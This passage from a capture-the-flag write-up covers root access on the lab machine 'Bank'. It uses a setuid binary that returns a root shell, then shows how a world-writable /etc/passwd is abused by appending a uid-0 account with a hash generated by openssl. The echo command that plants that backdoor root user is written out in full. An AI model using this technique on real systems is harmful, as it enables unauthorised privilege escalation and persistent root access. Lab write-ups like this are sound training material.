 Starting from the first one (/var/htb/bin/emergency) and trying to run it, we can notice that it simply returns a shell, but checking the id we can notice that the effective uid is root:
```
www-data@bank:/$ /var/htb/bin/emergency                           
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```

and so we can get the root flag.

### Obtaining root in a different way
Two of the files used to manage user account on a Linux box are **/etc/passwd** and **/etc/shadow**. **passwd** is readable by any user, but **shadow** typically holds the password hashes, and is only readable by root and members of the shadow group. In early versions of Linux, the password hashes were just stored in passwd, but that was determined to be a security risk once people started cracking hashes.

On a normal Linux install, the permissions for these files would look like:
```
root@kali# ls -l /etc/passwd /etc/shadow
-rw-r--r-- 1 root root   3297 Jun 22 16:19 /etc/passwd
-rw-r----- 1 root shadow 1839 Jun 22 16:19 /etc/shadow
```

However, on Bank, someone made passwd writable by anyone:
```
www-data@bank:/$ ls -l /etc/passwd /etc/shadow
-rw-rw-rw- 1 root root   1252 May 28  2017 /etc/passwd
-rw-r----- 1 root shadow  895 Jun 14  2017 /etc/shadow
```

Because passwd once held the hashes, it still can. Typically there’s an **x** where the hash would be, indicating that the hash is actually in shadow. But if I put a hash there, it will work.

I’ll add a user with userid and groupid 0, which makes that user root with a different password.

First I’ll generate a password hash for the password “0xdf” using openssl:
```
www-data@bank:/$ openssl passwd -1 0xdf
$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0
```

I’ll add a line to /etc/passwd using echo:
```
www-data@bank:/$ echo 'oxdf:$1$q6iY9K5M$eYK1fPmp6OfjbHhWGqZIf0:0:0:pwned:/root:/bin/bash' >> /etc/passwd
```

The format of the line is colon separated username (can’t start with a digit), password hash, user id, group id, comment, home directory, shell.
With the user added, I can just su to that user, which returns as root:
```
www-data@bank:/$ su - oxdf
Password: 
root@bank:~#
```



